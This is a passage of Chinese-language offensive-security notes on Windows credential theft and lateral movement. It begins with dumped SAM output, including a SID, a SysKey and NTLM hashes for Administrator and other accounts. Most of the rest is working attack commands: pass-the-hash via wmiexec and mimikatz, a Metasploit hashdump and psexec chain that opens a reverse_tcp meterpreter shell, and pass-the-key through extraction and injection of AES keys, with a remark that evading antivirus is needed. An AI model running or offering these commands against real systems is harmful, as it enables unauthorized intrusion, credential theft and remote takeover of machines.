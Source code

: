 Domain : MINI
SysKey : 58699cc69ada69e9d859731bec45824d
Local SID : S-1-5-21-687613702-1072107351-1410383080

SAMKey : 339c56f87f46195ddd5158c018a973de

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 22388b7da6d4e33b9ab1cdf631daff8c

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000003ee (1006)
User : HomeGroupUser$
  Hash NTLM: 73233a63fa3dd495142e3a362a921221

```

### pass the hash
---
wmiexec普通权限即可  
https://github.com/maaaaz/impacket-examples-windows
```
wmiexec -hashes 00000000000000000000000000000000:99b2b135c9e829367d9f07201b1007c3 TEST/test1@192.168.1.1 "whoami" //domain=TEST user=test1
```
or
需要管理权限

	mimikatz "privilege::debug" "sekurlsa::pth /user:abc /domain:test.local /ntlm:hash" 

or

	meterpreter > run post/windows/gather/hashdump
	Administrator:500:xxxxxxxxxxxx9a224a3b108f3fa6cb6d:xxxxf7eaee8fb117ad06bdd830b7586c:::
	meterpreter > background
	msf > use exploit/windows/smb/psexec
	msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
	msf exploit(psexec) > set SMBuser Administrator
	msf exploit(psexec) > set SMBPass xxxxxxxxxxxx9a224a3b108f3fa6cb6d:xxxxf7eaee8fb117ad06bdd830b7586c
	msf exploit(psexec) > exploit
	meterpreter > shell

安装了KB2871997补丁或者系统版本大于等于windows server 2012时，内存不再明文保存密码，1,改注册表后，注销再次登录，可以获取使用，2. schtasks等执行命令无法用管理员权限，用ptk，ptt。例外，打补丁后administrato（SID-500）依旧可以pth

https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-Pass-The-Hash%E7%9A%84%E5%AE%9E%E7%8E%B0/

### pass the key
---
需要免杀：

	mimikatz "privilege::debug" "sekurlsa::ekeys"  获取用户的aes key
	mimikatz "privilege::debug" "sekurlsa::pth /user:a /domain:test.local /aes256:asdq379b5b422819db694aaf78f49177ed21c98ddad6b0e246a7e17df6d19d5c"  注入aes key
	dir \\计算机名

### pass the ticket
---
不需要管理员权限

```